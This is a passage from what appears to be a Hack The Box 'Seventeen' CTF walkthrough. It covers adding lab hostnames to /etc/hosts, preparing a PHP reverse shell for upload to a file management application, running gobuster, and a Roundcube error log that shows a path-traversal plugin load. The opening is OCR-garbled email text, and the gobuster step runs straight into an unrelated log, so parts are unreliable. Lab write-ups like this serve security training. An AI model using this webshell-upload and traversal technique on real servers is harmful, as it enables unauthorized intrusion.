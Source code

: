 maybe we could workonthose skills by organizing some extraclasses. Some other colleagues of yours have alreadyagreed to this and
are willing to attend the studysessions at night.
Pleaselet Mr. Sam know the exact time when you can participate inthe sessions. And he wanted you to know that he won't be active
thorough the socials these days.You can useour new webmail service instead. (https://mastermailer.seventeen.htb/)
Original resource by Seventeen TLC
Thanks,
Mr.StevenBanks
TIC
Also, your requestto add the pastpapers to the file management applicationwas acknowledgedby the server management staff.
They informedthat those were stored and will be available for you to download shortly
```
https://mastermailer.seventeen.htb/

Lets add the subdomain to our hosts:
```
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts                                                                                                      
127.0.0.1       localhost
127.0.1.1       kali
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.10.11.165    mastermailer.seventeen.htb exam.seventeen.htb seventeen.htb
```

It hosts the ```roundcube``` application, lets dump the database:
[I forgot to document this step, but it was a rabbit hole anyways]
Nothing useful, the hash does not seem crackable.

### Webshell

Lets go back to the ```File Management Application```, there is a upload function -  maybe we can upload a php revserse shell.

I've created a ```php reverse shell``` and lets start some testing:
```
┌──(kali㉿kali)-[~/ctf/htb/seventeen/serve]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php .
                                                                                                                                                            
┌──(kali㉿kali)-[~/ctf/htb/seventeen/serve]
└─$ mv php-reverse-shell.php shell.php
```
First ```dirbust``` the application: 
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -k -u http://seventeen.htb:8000/oldmanagement/  -e -s 200


[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)